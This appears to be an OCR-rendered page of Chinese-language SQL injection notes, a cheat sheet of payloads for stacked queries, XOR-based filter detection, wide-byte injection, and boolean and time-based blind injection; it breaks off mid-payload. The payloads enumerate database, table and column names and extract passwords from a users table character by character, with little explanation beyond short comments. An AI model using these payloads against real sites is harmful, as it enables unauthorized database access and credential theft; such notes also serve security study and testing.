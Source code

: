在SQL中每句指令都会以；结尾

可以通过对查询语句的闭合进行下一句的执行

可以通过这种方法对数据库进行操作

##### 異或注入

通过null与任何进行异或为null用来判断是否有过滤

```
?id=1' length('union')!=0
//如果页面报错，未过滤
//不报错，则为过滤
```

##### 寬字節注入

```
?id=%df'
```

##### 布爾盲注

```
// 判斷庫長度
length(database())>n 

//獲取表長度
(select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>0 %23

//獲取表長度
ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0},1))>{1} %23

//获取列名
ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),{0},1))>{1} %23"

//获取内容
ascii(substr((select password from users limit 0,1),{0},1))>{1} %23"
```

##### 時間盲注

```
if()判断前面为真，则运行后面；sleep()延时运行
//判断表长
if(length(database())>9,0,sleep(5)) --+

//获取表名
if((select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>0,sleep(5)) %23

//获取列名
if(ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),{0},1))>{1},0,sleep(5)) %23"

//获取内容
if(ascii(substr((select password from users limit 0,1),{0},1))>{1},0,sl
```
